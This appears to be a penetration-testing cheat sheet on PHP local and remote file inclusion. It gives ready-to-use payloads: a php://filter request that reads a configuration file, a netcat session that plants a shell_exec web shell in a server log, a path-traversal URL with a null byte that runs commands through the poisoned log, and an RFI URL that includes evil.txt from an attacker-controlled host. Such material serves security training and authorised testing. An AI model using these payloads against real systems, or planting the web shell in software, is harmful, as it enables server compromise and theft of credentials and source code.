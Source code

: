 ## LFI/RFI

Local (LFI) and remote (RFI) file inclusion vulnerabilities are commonly found in poorly written PHP code.

The exploitation of these vulnerabilities also depends on PHP versions and web server configurations, specifically `php.ini` values such as `register_globals` and `allow_url` wrappers.

LFI/RFI vulnerabilities allow an attacker to include a remote or local file into the webserver’s running PHP code.

LFI vulnerabilities are a subclass of RFIs.

The difference between the two is the web application’s capability to include either local or remote files.

RFI attacks allow the attacker to introduce his own code to the webserver, resulting in a quick compromise, while LFI attacks limit the attacker to including files already existing on the web server, thus making compromise more challenging.

Reading PHP source code using LFI and PHP Streams:

```bash
curl https://dotty.thinc.local/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
```

### LFI Code Execution

One option is to contaminate log files of various services to cause them to contain PHP code.
For example, consider the following netcat connection made to the victim server on port 80:

```bash
root@kali:~# nc -nv 10.11.1.35 80
(UNKNOWN) [10.11.1.35] 80 (http) open
<?php echo shell_exec($_GET['cmd']);?>
HTTP/1.1 400 Bad Request
```

Then you should visit this URL to execute your code.
Pay attention to the 'cmd' parameter:

```text
http://10.11.1.35/addguestbook.php?name=a&comment=b&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00
```

In versions of PHP below 5.3, we would be able to terminate our request with a null byte (%00) that would cause the PHP engine to ignore everything after that byte.

### RFI Code Execution

Remote file inclusion (RFI) vulnerabilities are less common than LFIs and are commonly easier to exploit. 
In fact, the LFI demonstrated above is also a RFI vulnerability.

Consider the following parameter given as the LANG value:

```text
http://10.11.1.35/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.5/evil.txt
```

This request would force the PHP webserver to try to include a remote file, located on our web server, called `evil.txt`.
